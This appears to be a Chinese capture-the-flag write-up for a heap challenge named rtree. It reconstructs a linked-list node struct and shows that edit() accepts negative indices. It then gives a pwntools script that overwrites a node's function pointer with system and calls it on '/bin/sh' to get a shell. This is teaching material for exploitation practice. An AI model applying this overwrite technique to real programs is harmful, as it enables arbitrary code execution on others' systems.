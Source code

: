 ### Level 2

遇事不决 IDA。

和 Level 1 类似，依然是先还原 struct 结构，在 `insert` 段 malloc(0x28)，说明结构体大小是 0x28。

前 24B 与 Level 1 相同。再根据后面插入与查询处的迭代，可以知道 node + 32 位置是链表 next 指针。

最有意思的是 node + 24 位置，在 `insert` 时被赋值为了 edit 函数地址，然后在 edit 后被调用然后清零。说明每个节点能够允许调用 edit 一次。

大致还原如下：
```c
struct node {
	int key;					// node + 0
	char *data;					// node + 8
	int size;					// node + 16
	void (*func) (char*, int);	// node + 24
	struct node *next;			// node + 32
};
```

然后来寻找漏洞，发现 edit 函数在检查 index 时竟然没有检查负数！因此我们可以往前面奇怪的地方写入数据。只需要知道偏移量。

经过一番对 malloc 的测试马上就可以得知相对的偏移。

那么只要往 A 节点的 data 写入 `/bin/sh`，再通过 B 节点的 `edit()` 把 A 节点的 `func` 改到 `system`，最后调用 A 节点所谓的 `edit()` 就可以自动获取 shell。

![lv2-heap](binary-rtree/lv2-heap.png)

```python
elf = ELF('./rtree')
system = elf.symbols['system']
binsh = b'/bin/sh\x00'

r.sendline(b'1') # create Node A
r.recv()
r.sendline(b'1')
r.recv()
r.sendline(b'8')
r.recv()
r.sendline(binsh)
r.recv()

r.sendline(b'1') # create Node B
r.recv()
r.sendline(b'2')
r.recv()
r.sendline(b'8')
r.recv()
r.sendline(b'0' * 8)
r.recv()

r.sendline(b'3') # Edit Node B
r.recv()
r.sendline(b'2')
r.recv()
r.sendline(b'-104')
r.recv()
r.sendline(system.to_bytes(length=8, byteorder='little'))
r.recv()

r.sendline(b'3') # 'Edit' Node A
r.recv()
r.sendline(b'1')

r.interactive()
```